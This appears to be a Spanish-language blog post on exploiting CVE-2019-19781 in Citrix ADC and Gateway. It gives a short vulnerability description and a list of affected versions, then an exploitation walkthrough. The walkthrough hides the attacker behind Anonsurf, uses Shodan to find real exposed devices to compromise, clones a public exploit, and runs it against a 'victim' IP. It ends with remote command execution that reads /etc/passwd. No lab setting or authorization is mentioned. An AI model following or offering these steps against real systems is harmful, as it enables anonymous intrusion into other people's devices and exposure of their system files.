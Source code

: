 ```yaml
---
layout: single
title: Explotación de CVE-2019-19781 - Vulnerabilidades
excerpt: "Una vulnerabilidad de cruce de directorio de Citrix Application Delivery Controller (ADC) y Gateway, que puede llevar a la ejecución remota de código sin credenciales."
date: 2023-08-25
classes: wide
header:
  teaser: /assets/images/vulnerabilidades/cve-2019-19781/cve-2019-19781.png
  teaser_home_page: true
  icon: /assets/images/citrix.webp
categories:
  - Vulnerabilidades
 
tags:  
  - cve-2019-19781
  - Citrix
  - Shodan
  - exploit-db
  
---
```


![](/assets/images/vulnerabilidades/cve-2019-19781/cve-2019-19781.png)

## Descripción

La vulnerabilidad CVE-2019-19781 corresponde con un ataque de directorio transversal que permitía a un atacante ejecutar de forma remota código arbitrario en varias versiones de los productos ADC y Gateway de Citrix, así como en versiones antiguas de Citrix SD-WAN WANOP.

Está valorada como crítica, con una puntuación de 9.8 y fue descubierta por el investigador Mikhail Klyuchnikov, trabajador de la empresa Positive Technologies, quien reportó de manera ética la incidencia siguiendo el procedimiento de publicación responsable aplicable en estos casos.

•	Tipo: Limitación incorrecta de nombre de ruta a un directorio restringido (Path Traversal)

•	Gravedad: Alta

•	Fecha publicación: 27/12/2019

•	Última modificación: 08/01/2020

# Productos Afectados:

•	Citrix ADC y Citrix Gateway versión 13.0 todas las compilaciones compatibles

•	Citrix ADC y NetScaler Gateway versión 12.1 todas las compilaciones compatibles

•	Citrix ADC y NetScaler Gateway versión 12.0 todas las compilaciones compatibles

•	Citrix ADC y NetScaler Gateway versión 11.1 todas las compilaciones compatibles

•	Citrix NetScaler ADC y NetScaler Gateway versión 10.5 todas las compilaciones compatibles
 
# Explotación:

Para esta explotaciòn vamos a utilizar una maquina con sistema operativo Kali Linux. Como primera medida vamos a iniciar el anunsurf para manejar el anonimato

•	Anonsurf start

![](/assets/images/vulnerabilidades/cve-2019-19781/cve-2019-197811.png)

Buscamos en la página Expoit Database, un exploit referente a la vulnerabilidad.

•	https://www.exploit-db.com/

![](/assets/images/vulnerabilidades/cve-2019-19781/cve-2019-197812.png)

En la página de Shodan buscamos equipos con esta vulnerabilidad para ser vulnerados.

•	https://www.shodan.io/

![](/assets/images/vulnerabilidades/cve-2019-19781/cve-2019-197813.png)

Se realiza la clonación del repositorio del exploit desde la página de GitHub.

•	Git clone https://github.com/projectzeroindia/CVE-2019-19781

![](/assets/images/vulnerabilidades/cve-2019-19781/cve-2019-197814.png)

Ingresamos al directorio del Exploit descargado.

![](/assets/images/vulnerabilidades/cve-2019-19781/cve-2019-197815.png)

Dentro del directorio ejecutamos el siguiente comando.

•	python3 cve-2019-19781_scanner.py <IP DE LA VICTIMA> <PUERTO>

![](/assets/images/vulnerabilidades/cve-2019-19781/cve-2019-197816.png)

Finalmente se evidencia que fue vulnerable y lista los directorios del dispositivo.

![](/assets/images/vulnerabilidades/cve-2019-19781/cve-2019-197817.png)

Probamos ejecutando otro comando.

•	bash CVE-2019-19781.sh <IP VICTIMA> 'cat /etc/passwd'

![](/assets/images/vulnerabilidades/cve-2019-19781/cve-2019-197818.png)




